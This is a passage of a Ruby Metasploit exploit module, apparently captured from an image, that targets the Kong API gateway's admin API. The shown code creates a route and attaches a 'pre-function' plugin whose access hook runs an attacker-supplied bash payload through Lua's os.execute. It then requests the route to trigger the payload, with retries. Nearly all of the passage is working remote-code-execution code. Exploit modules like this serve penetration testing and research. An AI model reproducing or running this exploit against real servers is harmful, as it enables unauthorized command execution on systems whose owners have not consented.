 ```
        }
      )
    )
    register_options(
      [
        OptString.new('PUBLIC-API-RHOST', [false, 'The host where the public API is available, if different to RHOST']),
        OptInt.new('PUBLIC-API-RPORT', [true, 'The port where the public API is available', 8000]),
        OptString.new('TARGETURI', [true, 'URI to the Kong server', '/'])
      ],
      self.class
    )
  end

  def check_response(response, expected, path, description)
    fail_with(Failure::Unreachable, "No response received from #{path} when #{description}") unless response
    return if response.code == expected

    fail_with(Failure::UnexpectedReply,
              "Unexpected response from #{path} when #{description} (received #{response.code}, expected #{expected})")
  end

  def create_route
    path = normalize_uri(target_uri.path, 'routes')
    response = send_request_cgi({
      'method' => 'POST', 'uri' => path,
      'vars_post' => { 'name' => @rand_name, 'paths' => "/#{@rand_name}" }
    })
    check_response(response, 201, path, 'creating route')
  end

  def create_plugin
    # The double square brackets helps to ensure single/double quotes in cmd payload do not interfere with syntax of
    # os.execute Lua function. The ampersand backgrounds the command so that it doesn't cause Kong to hang.
    cmd = %{os.execute([[bash -c "#{payload.encoded}" &]])}
    path = normalize_uri(target_uri.path, 'routes', @rand_name, 'plugins')
    response = send_request_cgi({
      'method' => 'POST', 'uri' => path,
      'vars_post' => { 'name' => 'pre-function', 'config.access' => cmd }
    })
    check_response(response, 201, path, 'creating plugin')
  end

  def request_route
    path = normalize_uri(target_uri.path, @rand_name)
    rhost = datastore['PUBLIC-API-RHOST'] if datastore['PUBLIC-API-RHOST']
    rport = datastore['PUBLIC-API-RPORT'] if datastore['PUBLIC-API-RPORT']
    retry_count = 0
    begin
      response = send_request_cgi({ 'uri' => path, 'rhost' => rhost, 'rport' => rport })
      check_response(response, 503, path, 'requesting route')
    rescue Msf::Exploit::Failed
      maximum_retries = 3
      if retry_count <= maximum_retries
        retry_count += 1
        print_status("Route not yet available, trying again - attempt #{retry_count}/#{maximum_retries}")
        sleep(retry_count**2)
        retry
```